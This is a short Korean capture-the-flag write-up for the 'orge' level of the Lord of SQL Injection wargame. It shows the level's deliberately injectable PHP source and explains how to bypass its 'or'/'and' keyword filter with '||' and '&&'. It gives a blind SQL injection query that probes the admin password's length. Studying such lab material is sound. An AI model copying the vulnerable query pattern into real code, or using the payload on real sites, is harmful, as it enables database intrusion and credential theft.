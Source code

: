 # **LOS orge**

## <img src="./img/key.png" width="25"> **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```
`4. LOS orc` 문제와 비슷하다. 하지만 `or` 와 `and` 를 검사한다. 이것은 `||` 와 `%26%26` 을 이용하여 우회할 수 있다.  
설명은 생략하고 바로 문제풀이를 하겠다.

>`pw` 길이 알아내기

`select id from prob_orge where id='guest' and pw='' || id='admin' && length(pw)=8#'`
